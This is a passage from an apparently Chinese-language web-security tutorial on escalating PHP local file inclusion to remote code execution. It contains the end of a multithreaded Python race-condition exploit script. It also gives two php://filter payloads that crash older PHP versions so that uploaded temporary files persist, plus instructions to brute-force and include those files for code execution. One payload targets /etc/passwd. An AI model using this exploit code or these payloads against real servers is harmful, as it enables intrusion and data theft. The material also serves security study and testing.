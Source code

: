 ```
    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))
    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter &gt;= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot! m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "nTelling threads to shutdown..."
        e.set()
    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```



## with php崩溃

### <a class="reference-link" name="php%20Segfault"></a>php Segfault

向PHP发送含有文件区块的数据包时，让PHP异常崩溃退出，POST的临时文件就会被保留

**1. php &lt; 7.2**
- `php://filter/string.strip_tags/resource=/etc/passwd`
**2. php7 老版本通杀**
- `php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA`
更新之后的版本已经修复，不会再使php崩溃了，这里我使用老版本来测试可以利用

**包含上面两条payload可以使php崩溃，请求中同时存在一个上传文件的请求则会使临时文件保存，然后爆破临时文件名，包含来rce**

**payload1测试：**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/04/26/EnhwdJ.png)

